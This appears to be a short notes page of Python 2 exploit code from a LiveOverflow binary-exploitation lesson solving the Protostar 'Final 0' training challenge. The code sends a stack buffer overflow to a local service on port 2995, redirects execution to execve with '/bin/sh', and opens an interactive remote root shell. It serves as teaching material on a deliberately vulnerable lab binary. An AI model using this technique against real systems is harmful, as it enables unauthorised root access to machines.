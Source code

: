 > LiveOverFlow_bin_0x1D_First_remote_root_exploit

```python
import struct
import socket
import telnetlib
```

# [LiveOverflow](https://www.youtube.com/watch?v=HAN8Qun26cQ)
### __Final 0__

```bah
HOST = '127.0.0.1'
PORT = 2995
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
```
...

```bash
padding = "a"*510+"\x00"+"aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 1176511 + 0xb7e97000)
exploit = padding + execve + "AAAA" + binsh + "\x00"*8
```
...

```bash
s.send(exploit+"\n")
s.send("id\n")
print s.recv(1024)
```
...

```bash
t = telnetlib.Telnet()
t.sock = s
t.interact()
```




